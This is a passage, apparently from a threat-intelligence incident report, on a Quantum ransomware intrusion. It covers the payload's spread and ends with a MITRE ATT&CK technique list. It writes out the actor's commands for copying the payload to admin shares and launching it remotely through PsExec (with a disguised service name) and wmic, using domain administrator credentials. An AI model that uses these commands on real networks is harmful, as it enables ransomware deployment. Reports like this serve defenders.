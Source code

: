 They first copied the payload, ttsel.exe , to the C$ share of each host on the network.

C:\Windows\system32\cmd.exe /K copy ttsel.exe \\<IP>\c$\windows\temp\

# PsExec

The threat actor utilized the “-r” option in PsExec to define a custom name (“mstdc”) of the remote service created on the target host (by default is PSEXESVC).

psexec.exe \\<IP ADDRESS> -u <DOMAIN>\Administrator -p "<PASSWORD>" -s -d -h -r mstdc -accepteula -nobanner c:\windows\temp\ttsel.exe

This resulted in the file C:\Windows\mstdc.exe being created on the target endpoint when PsExec was executed.

# WMI

The alternate execution method the actor employed was a WMI call to start a remote process on the target host.

wmic /node:"<IP ADDRESS>" /user:"<DOMAIN>\Administrator" /password:"<PASSWORD>" process call create "cmd.exe /c c:\windows\temp\ttsel.exe"

The Quantum ransomware began to encrypt files across all hosts in the environment which then dropped the following ransom note: README_TO_DECRYPT.html

The Quantum portal had a unique option to create and set a password to the negotiation chat.

Once authenticated, it displays the chat window with the threat actor.

# MITRE ATT&CK DATASET
T1204 - User Execution T1614.001 - System Location Discovery: System Language Discovery T1218.011 - Signed Binary Proxy Execution: Rundll32 T1059.001 - Command and Scripting Interpreter: PowerShell T1059.003 - Command and Scripting Interpreter: Windows Command Shell T1055 - Process Injection T1055.012 - Process Injection: Process Hollowing T1003.001 - OS Credential Dumping: LSASS Memory T1486 - Data Encrypted for Impact T1482 - Domain Trust Discovery T1021.002 - Remote Services: SMB/Windows Admin Shares T1083 - File and Directory Discovery T1518.001 - Software Discovery: Security Software Discovery T1047 - Windows Management Instrumentation T1087.002 - Account Discovery: Domain Account T1082 - System Information Discovery T1018 - Remote System Discovery T1053.005 - Scheduled Task/Job: Scheduled Task T1071.001 - Web Protocols


